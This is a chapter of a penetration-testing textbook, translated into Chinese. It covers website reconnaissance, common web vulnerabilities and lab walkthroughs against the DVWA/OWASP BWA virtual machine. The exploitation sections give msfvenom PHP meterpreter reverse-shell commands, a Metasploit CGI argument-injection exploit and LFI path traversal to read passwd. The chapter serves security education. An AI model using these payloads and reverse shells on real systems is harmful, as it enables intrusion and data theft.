





# 执行网站渗透测试

这一章使我们远离我们习惯于利用的常规网络设备，而是专注于检查 Web 应用程序和服务器中的漏洞。

作为渗透测试人员是一份相当酷的工作，因为你被付钱来侵入或攻破别人的网络和系统，但是合法的。

作为渗透测试人员还意味着开发和扩展你的技能范围到各种领域；总会有情况需要你对客户的 Web 服务器进行漏洞评估或渗透测试。本章将首先教你如何发现目标网站上正在使用的基础技术，以及如何发现同一服务器上托管的其他网站。此外，你还将学习如何在目标 Web 服务器上执行多个利用，包括上传和执行恶意文件以及利用**本地文件包含**（**LFI**）对一个有漏洞的服务器进行利用。

在本章中，我们将涵盖以下主题：

+   信息收集

+   密码学

+   文件上传和文件包含漏洞

+   利用文件上传漏洞

+   利用代码执行漏洞

+   利用 LFI 漏洞

+   防止漏洞

让我们开始吧！

# 技术要求

本章的技术要求如下：

+   **Kali Linux**: [`www.kali.org/`](https://www.kali.org/)

+   **OWASP 破碎的 Web 应用项目**：[`sourceforge.net/projects/owaspbwa/`](https://sourceforge.net/projects/owaspbwa/)

# 信息收集

在本书的早期部分，特别是第五章中的*被动信息收集*和第六章中的*主动信息收集*，我们讨论了对目标进行广泛侦察的重要性，无论是单个系统、网络，甚至是网站。每次渗透测试都有一套指南和阶段。正如你可能记得的那样，渗透测试的阶段包括：

1.  侦察（信息收集）

1.  扫描（和枚举）

1.  利用（获取访问权限）

1.  保持访问

1.  覆盖踪迹

尽可能收集有关目标的信息有助于我们确定目标是否存在安全漏洞以及是否可能利用它们。在接下来的部分中，我们将首先学习如何发现网站上正在使用的技术。

# 发现网站上正在使用的技术

在网站渗透测试的信息收集阶段，确定实际网页服务器上运行的基础技术是很重要的。**Netcraft** ([www.netcraft.com](http://www.netcraft.com))是一个互联网安全和数据挖掘网站，可以帮助我们发现任何给定网站上的网页技术。

要开始使用**Netcraft**，请按照以下步骤进行：

1.  前往[`toolbar.netcraft.com/site_report`](https://toolbar.netcraft.com/site_report)。

1.  在网站上，输入查找字段中的网站 URL。

以下是为[www.google.com](http://www.google.com)网站检索到的结果：


Netcraft 能够提供有关目标网站的许多详细信息，包括以下内容：

+   +   域名

+   公共 IP 地址

+   域名注册商

+   组织

+   Netblock 所有者

+   域名服务器

+   DNS 管理员联系

+   Web 服务器类型

+   Web 服务器操作系统

已经获取了 Web 服务器操作系统和正在运行的应用程序，现在可以将范围缩小到搜索适合目标的漏洞和利用。

1.  此外，您可以使用**Netcat**实用程序执行**横幅抓取**。此技术用于检索目标设备上正在运行的守护程序或应用程序的服务版本。使用以下命令，我们可以在端口`80`上在我们的机器（Kali Linux）和目标 Web 服务器之间建立连接：

```
nc www.google.com 80
```

1.  接下来，是时候检索 Web 服务器横幅了。执行以下命令：

```
GET / HTTP/1.1
```

1.  按两次*Enter*，Web 服务器横幅将显示在顶部。以下是显示[www.google.com](http://www.google.com)地址的服务器横幅的片段，以及其 Web 服务器类型：


请记住，使用 Netcat 实用程序将在攻击者机器（Kali Linux）和目标之间建立会话。如果目标是隐蔽的（不可检测），则不建议使用此方法，除非您正在欺骗您的 IP 地址和 MAC 地址。

可以选择使用**Telnet**执行此技术。只需用`telnet`替换`nc`，您应该在终端窗口上获得相同的结果。

在接下来的部分，我们将深入探讨托管在同一 Web 服务器上的网站的发现。

# 发现托管在同一服务器上的网站

多年来，组织已经摆脱了在自己的本地服务器上托管公司网站的做法，转而使用在线的基于云的解决方案。在电子商务行业有许多网站托管公司提供网站托管等解决方案。

托管提供商通常不会为客户提供专用服务器来托管他们的网站；相反，他们会提供共享空间。换句话说，托管您网站的服务器也会托管其他人的网站。这对服务提供商和客户都是有利的。客户支付较少的费用，因为他们只是与其他人共享服务器上的资源，服务器提供商不需要为每个用户启动专用服务器，这将导致更少的功耗和数据中心中的物理存储空间。

由于服务提供商使用这种为客户提供共享空间的业务和 IT 方法，安全性是一个问题。这就像在学校实验室使用计算机一样；每个人都有自己的用户帐户，但仍在共享一个系统。如果一个用户决定在计算机上执行恶意操作，他们可能能够从其他用户的帐户/配置文件中检索敏感数据。

在第五章，*被动信息收集*中，引入了**Maltego**，以便我们可以对目标网站执行被动信息收集。在本节中，我们将再次使用 Maltego 来帮助我们发现托管在同一服务器上的网站。

在继续之前，请确保您熟悉使用**Maltego**执行各种信息收集任务。如果您在记住如何使用 Maltego 中的基本工具方面有困难，请花几分钟时间查看第五章，*被动信息收集*。

观察以下步骤以发现同一服务器上的网站：

1.  在 Maltego 上添加一个域。在这个练习中，我使用免费的网络托管提供商创建了一个新的域。您可以做同样的事情，或者如果您已经拥有一个现有的域名，也可以使用您现有的域名。

在未经他们的知识和同意的情况下，您不应该使用其他人的域。在这个练习中，我只创建并拥有目标域。

1.  右键单击域实体，选择所有变换|到 DNS 名称-NS（名称服务器），如下面的屏幕截图所示：


Maltego 将花费几秒钟来检索目标域名的名称服务器：


我的自定义域的托管提供商正在使用两个名称服务器。

1.  一旦获取了域名服务器，就该检查是否有其他网站托管在同一台服务器上。右键单击一个域名服务器，然后选择所有转换 | 到域（共享此 NS），如下面的屏幕截图所示：



这个过程通常需要一两分钟才能完成。完成后，Maltego 将为您提供结果。如您在下面的片段中所见，有多个网站托管在与我的域相同的服务器上：


这种技术在对目标组织的 Web 服务器进行概要分析时非常有用。有时，您可能会遇到一个组织将他们的网站和其他内部网站托管在网络的 DMZ 部分的同一台服务器上。始终尝试执行枚举技术以提取 Web 服务器上的任何站点。有时，组织将其内部网站托管在与其公共网站相同的 Web 服务器上。访问隐藏站点可以提供有益的信息。

免责声明：为了保护机密性，与网站相关的信息已经模糊处理，因为它属于其他方。

在下一节中，我们将学习如何在网站上发现敏感文件的方法。

# 发现敏感文件

为了继续我们的网站渗透测试中的信息收集阶段，我们将尝试发现目标网站上的任何敏感文件和目录。为了执行这项任务，我们将使用 DirBuster。DirBuster 是一个用于暴力破解 Web 应用程序的工具，旨在揭示目标 Web 服务器上的任何敏感目录和文件。

在这个练习中，我们将使用 OWASP Broken Web Applications（BWA）项目虚拟机作为目标，使用我们的 Kali Linux 机器作为攻击者。

要在 Web 服务器上发现敏感文件，请按照以下步骤操作：

1.  通过导航到应用程序 | 03 - Web 应用程序分析 | Web 爬虫和目录暴力破解 | DirBuster 打开 DirBuster。

1.  当 DirBuster 打开时，在目标 URL 字段中输入 OWASP BWA 虚拟机的 IP 地址。URL 应该是`http://192.168.56.101:80/`的格式。

1.  您还可以选择增加线程的数量。增加线程的数量将为应用程序应用更多的计算能力，因此会加快进程速度。

1.  单击“浏览”以添加 DirBuster 将用于在目标网站上索引和搜索的单词列表。如果单击“列表信息”，将会出现一个新窗口，提供一个推荐的单词列表。

1.  取消选中“递归”旁边的框。

1.  点击“开始”开始这个过程。

以下屏幕截图显示了此任务所使用的选项：



此外，您还可以使用来自其他位置的单词列表，例如 SecLists。

文件扩展名选项可以自定义，并且是查找具有`.bak`和`.cfg`等文件的隐藏目录的好方法。

在 DirBuster 执行暴力攻击时，结果窗口将出现。要查看所有当前目录和文件，请单击结果 - 列表视图选项卡，如下面的屏幕截图所示：


HTTP 200 状态代码表示操作成功。换句话说，攻击者机器已成功能够与目标网站/服务器上的特定目录进行通信。

此外，还可以使用 Burp Suite 和 OWASP ZAP 等其他工具来发现目标 Web 服务器和网站上的隐藏目录和敏感文件。

如前面的片段所示，使用 DirBuster 找到了目录列表。浏览每个目录，因为它们可能包含有关目标的敏感文件和信息。

在下一节中，我们将看一下`robots.txt`文件的重要性。

# robots.txt

`robots.txt`文件包含来自 Web 服务器的目录和文件列表。`robots.txt`文件中的条目由网站所有者或 Web 管理员创建，并用于隐藏 Web 爬虫的目录位置。换句话说，它通知搜索引擎的爬虫不要索引网站的某个目录。

渗透测试人员在域名末尾添加`robots.txt`扩展名，以访问和查看其内容。以下是知名组织的`robots.txt`文件的条目：



如您所见，有多个目录。通过简单地将每个目录与域名结合，您将能够访问目标网站上的隐藏区域。让我们使用`/administrator/`目录：


我们现在可以访问站点控制面板的登录页面。使用其他目录可能会提供其他有益的信息。

在下一部分，我们将深入分析目标服务器上发现的文件。

# 分析发现的文件

隐藏目录通常包含具有重要信息的敏感文件。

观察以下步骤，开始分析发现的文件：

1.  在 DirBuster 结果窗口中，单击“结果-树视图”选项卡。这将为您提供一个树形结构，允许您展开每个文件夹：


通过展开`cgi-bin`文件夹，我们可以看到两个文件，如前面的截图所示。使用 Web 浏览器，我们可以添加目录扩展名和服务器的 IP 地址，以创建 URL。

1.  输入`http://192.168.56.101/cgi-bin/`地址，网页浏览器显示了文件、最后修改日期、文件大小和描述：



1.  此外，我们可以使用`dirb`来检查目标 Web 服务器上的文件和目录。如果我们使用以下语法，`dirb`允许我们执行快速扫描：

```
dirb http://192.168.56.101
```

1.  作为命令的一部分，您可以选择使用自定义字典：

```
dirb http://192.168.56.101 <wordlist>
```

以下截图是 DirBuster 执行的快速扫描。如果您仔细观察，您会注意到 DirBuster 能够发现隐藏的目录和文件，以及它们的大小：


执行这样的任务可能会耗费一些时间，可能需要几分钟，甚至几个小时才能完成。

在接下来的部分，我们将深入学习密码学知识。

# 密码学

密码学是一种保护系统上的数据免受未经授权的人员访问的技术。这种技术涉及将消息通过加密密码（算法），并提供一个称为密文的输出（加密消息）：


密码学有以下目标：

+   机密性

+   完整性

+   认证

+   不可否认性

然而，Web 应用程序可以在其应用程序中使用设计不良的加密代码，以保护最终用户浏览器和 Web 应用程序之间以及 Web 应用程序和数据库服务器之间传输的数据。

这样的安全漏洞可能导致攻击者窃取和/或修改 Web 或数据库服务器上的敏感数据。

接下来，我们将学习有关各种 Web 漏洞以及如何在目标 Web 服务器上利用文件上传和文件包含漏洞。

# 文件上传和文件包含漏洞

在本节中，我们将讨论各种安全漏洞，允许攻击者在 Web 服务器上执行文件上传、代码执行和文件包含攻击。

在接下来的部分，我们将介绍以下主题的基础知识：

+   **跨站脚本**（**XSS**）

+   **跨站请求伪造**（**CSRF**）

+   **结构化查询语言注入**（**SQLi**）

+   不安全的反序列化

+   常见的配置错误

+   易受攻击的组件

+   不安全的直接对象引用

让我们开始吧！

# XSS

XSS 攻击是通过利用动态创建的网页中的漏洞来进行的。这允许攻击者将客户端脚本注入到其他用户正在查看的网页中。当一个毫无戒心的用户访问包含 XSS 的网页时，用户的浏览器将在受害者不知情的情况下开始在后台执行恶意脚本：


XSS 攻击通常专注于将用户重定向到恶意 URL，数据窃取，操纵，显示隐藏的 IFRAMES，并在受害者的 Web 浏览器上显示弹出窗口。

恶意脚本包括 ActiveX、VBScript、JavaScript 或 Flash。

XSS 攻击有两种类型：

+   存储型 XSS

+   反射型 XSS

在接下来的部分，我们将详细讨论这两种攻击。

# 存储型 XSS

存储型 XSS 在网页上是**持久**的。攻击者将恶意代码注入到服务器上的 Web 应用程序中。代码/脚本被永久存储在页面上。当潜在受害者访问受损的网页时，受害者的浏览器将解析所有的 Web 代码。然而，在后台，恶意脚本正在受害者的 Web 浏览器上执行。这使得攻击者能够检索存储在受害者的 Web 浏览器上的任何密码、cookie 信息和其他敏感信息。

# 反射型 XSS

反射型 XSS 是一种**非持久**攻击。在这种形式的 XSS 中，攻击者通常向潜在受害者发送一个恶意链接。如果受害者点击恶意链接，它将在受害者的计算机上打开默认的 Web 浏览器（反射）。Web 浏览器将自动加载包含恶意脚本的网页，恶意脚本将自动执行，捕获密码，cookie 信息和其他敏感信息。

接下来，我们将深入探讨 CSRF。

# CSRF

CSRF 攻击与 XSS 攻击有些相似。让我们用类比来简化对 CSRF 攻击的解释。想象一下，用户 Bob 打开他的 Web 浏览器并登录到他的银行客户门户，以在他的账户上进行一些在线交易。Bob 已经在他的银行的 Web 门户上使用了他的用户凭据；Web 应用程序/服务器验证用户是 Bob，并自动信任他的计算机作为与 Web 服务器通信的设备。

然而，Bob 还在同一个浏览器中打开一个新标签页访问另一个网站，同时保持与银行的 Web 门户（受信任的站点）的活动会话。Bob 并不怀疑他访问的新网站包含恶意代码，然后在 Bob 的计算机上后台执行：


然后，恶意代码将从 Bob 的计算机向受信任的站点注入 HTTP 请求。通过这种方式，攻击者能够捕获 Bob 的用户凭据和会话信息。此外，恶意链接还可以导致 Bob 的计算机在受信任的站点上执行恶意操作。

在下一节中，我们将详细介绍**SQL 注入**（SQLi）攻击的基本知识。

# SQLi

SQLi 允许攻击者将一系列恶意的 SQL 代码/查询直接插入到后端数据库服务器中。这使得攻击者能够操纵记录，如添加、删除、修改和检索数据库中的条目：


攻击者可以利用 Web 应用程序的漏洞来绕过安全控制和措施，以进入数据库服务器/应用程序。SQLi 攻击是通过 Web 浏览器的地址栏或网站的登录门户注入的。

接下来，我们将讨论不安全的反序列化。

# 不安全的反序列化

**序列化**是将对象转换为较小字节大小的过程，以便传输或存储对象在文件、数据库甚至内存中。这个过程允许对象保持其状态，以便在需要时进行组装/重建。然而，序列化的反义词称为**反序列化**。这是将数据流（字节）重新创建为其原始形式的过程。

**不安全的反序列化**发生在不受信任的数据被用来滥用应用程序逻辑、创建拒绝服务攻击或在网页应用程序/服务器上执行恶意代码的情况下。在不安全的反序列化攻击中，攻击者可以在目标网页服务器上执行远程代码。

有关不安全的反序列化的更多信息可以在 OWASP 网站上找到，网址为[`www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization`](https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization)。

大多数情况下，系统管理员和 IT 专业人员直到网络攻击来临时才会认真对待这些漏洞。作为渗透测试人员，我们的工作是高效地发现目标组织中所有现有和隐藏的安全漏洞，并通知公司以帮助保护他们的资产。

在接下来的部分，我们将概述一些网页服务器上常见的配置错误。

# 常见的配置错误

网页服务器上的配置错误可能会导致漏洞，允许攻击者未经授权访问默认用户帐户、访问隐藏页面和目录、对任何未修补的缺陷进行利用，以及在服务器上对不安全目录和文件执行读/写操作。

安全配置错误不仅限于网页应用程序的任何级别，还可能影响网页服务器和应用程序的任何级别，如操作系统（Windows 或 Linux）、网页服务器平台（Apache、IIS 和 Nginx）、框架（Django、Angular、Drupal 等）甚至托管在服务器上的自定义代码。

在接下来的部分，我们将讨论在网页服务器和平台上发现的各种易受攻击的组件。

# 易受攻击的组件

以下是网页应用程序中一些常见的易受攻击的组件：

+   **Adobe Flash Player**：Adobe Flash Player 通常用作网页浏览器中的多媒体播放器。它支持在线视频、音频和游戏等应用内容。然而，多年来，已经发现并记录了许多安全漏洞，用户已经开始放弃在其网页浏览器上使用这个组件。最近的一个漏洞是**CVE-2018-15982**，它允许成功利用导致目标系统上的任意代码执行。

+   **JBoss 应用服务器**：JBoss 应用服务器是一个 Java 网页容器，既是开源的，也能够跨平台操作。在撰写本书时，发现了一个严重漏洞，使攻击者能够在 JBoss 应用服务器上远程执行恶意代码，从而完全控制目标。

该漏洞影响了所有 JBoss 应用服务器版本 4.0 及之前的版本。

+   **Adobe ColdFusion**：Adobe ColdFusion 是一个商业网页应用开发平台。其设计旨在允许开发人员轻松地将 HTML 页面连接到数据库。然而，在 2018 年，发现了一个关键漏洞，允许攻击者在没有任何限制的情况下将数据上传到受损系统，进而允许攻击者使用 Web shell 控制服务器。这个漏洞被记录为**CVE-2018-15961**。

请注意，这些只是网页服务器上可以找到的许多易受攻击的组件之一。随着时间的推移，安全研究人员将继续发现和记录新的漏洞。

在接下来的部分，我们将简要讨论**不安全的直接对象引用**（**IDOR**）。

# IDOR

根据 OWASP（[www.owasp.org](http://www.owasp.org)）的说法，IDOR 发生在基于用户提供的输入提供对对象的访问权限时。如果发现 Web 应用程序存在漏洞，攻击者可以尝试绕过授权并访问受损系统上的资源。

接下来，我们将演示如何利用目标机器上的文件上传漏洞。

# 利用文件上传漏洞

在这个练习中，我们将使用我们的 OWASP BWA 虚拟机来演示文件上传漏洞。让我们开始吧：

1.  首先，在 Kali Linux（攻击者）机器上使用`msfvenom`创建有效载荷，稍后将上传到目标服务器。使用以下语法，创建一个基于 PHP 的有效载荷以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

1.  复制突出显示的代码，打开文本编辑器，并将文件保存为`img.php`：


1.  在 Kali Linux 中的 Web 浏览器中，输入 OWASP BWA 的 IP 地址并点击*Enter*。

1.  在主页上，单击**Damn Vulnerable Web Application**：


1.  DVWA 登录门户将出现。使用`admin`/`admin`作为用户名/密码登录：



1.  登录后，您将在左侧看到一个菜单。单击上传以查看漏洞：文件上传页面：


1.  单击浏览...，选择`img.php`文件，然后单击页面上的上传。

1.  一旦文件被上传，您将收到一条消息，显示文件在服务器上的存储目录：


1.  复制文件位置，即`hackable/uploads/img.php`，并将其粘贴到 URL 中以执行有效载荷（`img.php`）。以下是预期的 URL：

```
192.168.56.101/DVWA/ hackable/uploads/img.php
```

按*Enter*执行有效载荷。

1.  在 Kali Linux 上，使用以下命令加载 Metasploit：

```
service postgresql start msfconsole
```

1.  在 Metasploit 中启用`multi/handler`模块，设置反向 TCP 有效载荷，并使用以下命令执行利用：


请确保检查 Kali Linux 机器的 IP 地址，并相应地调整`LHOST`参数。

1.  在服务器上执行了`img.php`有效载荷并在 Metasploit 上启用了`multi/handler`后，我们能够在攻击者机器上接收到一个反向 shell，如下面的屏幕截图所示：


使用`meterpreter` shell，您现在可以在受损系统上执行进一步的操作。

在接下来的部分，我们将演示如何利用代码执行漏洞。

# 利用代码执行漏洞

当设备容易受到代码执行攻击时，攻击者或渗透测试人员被允许在目标服务器上远程执行代码。此外，渗透测试人员将能够检索存储在目标上的源代码。

为了完成这个练习，我们将使用以下拓扑结构：


要开始执行代码执行利用，请按照以下步骤进行：

1.  我们将尝试发现目标是否容易受到**CVE-2012-1823**的攻击。要发现目标是否容易受到攻击，请使用以下命令与`nmap`：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回结果，表明目标存在漏洞。然而，这不应该阻止您确定目标是否容易受到攻击。

1.  接下来，在**Metasploit**中，使用`search`命令查找一个适合的利用模块，以帮助我们利用目标上的漏洞：


1.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

1.  此外，以下命令允许您使用适当的有效载荷在利用后建立远程 shell 并设置您的本地主机 IP 地址：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```

1.  使用`exploit`命令对目标发动攻击。以下截图显示了攻击成功的目标：


有效载荷已发送到受害者，并且我们有了一个反向 shell。完成了本节后，您现在可以发现并在目标服务器上执行代码执行。

在下一节中，我们将演示如何利用 LFI 漏洞。

# 利用 LFI 漏洞

易受 LFI 安全漏洞影响的服务器允许攻击者通过 Web 浏览器中的 URL 显示文件的内容。在 LFI 攻击中，渗透测试人员可以使用`../`或`/`从其目录中读取任何文件的内容。

要开始，请返回到**OWASP BWA**中的**Damn Vulnerable Web Application**（**DVWA**）Web 界面：

1.  在 DVWA Web 界面上，点击左侧菜单上的文件包含：


1.  通过重复使用`../`几次并插入`passwd`文件的目录，我们能够查看目标 Web 服务器上`passwd`文件的内容：


这种类型的攻击测试系统的目录遍历漏洞。目录遍历允许攻击者访问受限制的位置和文件，并在目标 Web 服务器上执行命令。这个攻击者可以通过在 URL 中简单地使用`点-点-斜杠（../）`语法来操纵变量。

到目前为止，我们已经完成了一些练习，以利用目标系统的各种弱点。在下一节中，我们将看看如何预防和减轻安全漏洞。

# 预防漏洞

以下是可以用来防止 Web 服务器和 Web 应用程序攻击并纠正此类漏洞的对策：

+   对操作系统和 Web 应用程序应用最新（稳定）的补丁和更新。

+   在 Web 服务器上禁用任何不必要的服务和协议。

+   尽可能使用安全协议，例如支持数据加密。

+   如果使用不安全的协议，实施安全控件以确保它们不被利用。

+   如果 Web 应用程序没有使用 WebDAV，则禁用 WebDAV。

+   删除所有未使用的模块和应用程序。

+   禁用所有未使用的默认帐户。

+   更改默认密码。

+   实施安全策略以防止暴力破解攻击，例如对于登录尝试失败的警戒策略。

+   禁用目录列表的服务。

+   监视和检查日志以发现任何可疑活动。

+   从受信任的**证书颁发机构**（**CA**）实施数字证书，并确保数字证书始终是最新的。

+   确保数据输入验证和净化已实施并定期测试。

+   实施**Web 应用程序防火墙**（**WAF**）。

这些项目只是 IT 专业人员可以采用的预防措施的摘要；然而，由于每天都会出现新的更复杂的威胁和攻击，因此需要进行额外的研究。

# 总结

在本章的课程中，我们已经讨论了我们可以使用的技术，以确定 Web 服务器上的 Web 技术，并对目标 Web 应用程序执行真实世界的模拟攻击。

现在，您可以发现目标 Web 服务器上使用的基础 Web 技术，并进行进一步的枚举，以发现单个 Web 服务器上托管的其他网站。此外，通过完成本章的练习，您具备了发现目标服务器上任何敏感文件和目录的技能，并进行网站渗透测试以利用文件上传和 LFI 漏洞。

希望本章对您的学习和职业有所帮助和启发。在下一章，第十五章，*网站渗透测试-获取访问权限*，您将学习如何使用高级 Web 应用程序渗透测试。

# 问题

1.  有哪些 Web 服务器平台？

1.  可以用什么工具来发现 Web 服务器上的隐藏文件？

1.  什么 HTTP 状态代码表示成功？

1.  哪种类型的攻击允许攻击者从受害者的 Web 浏览器中检索存储的数据？

1.  哪种类型的攻击允许恶意用户操纵数据库？

# 进一步阅读

以下是一些额外的阅读资源：

+   **易受攻击的组件**：[`resources.infosecinstitute.com/exploring-commonly-used-yet-vulnerable-components/`](https://resources.infosecinstitute.com/exploring-commonly-used-yet-vulnerable-components/)

+   **测试不安全的直接对象引用**：[`www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004)`](https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004))

+   **Web 服务器配置错误**：[`www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration`](https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration)
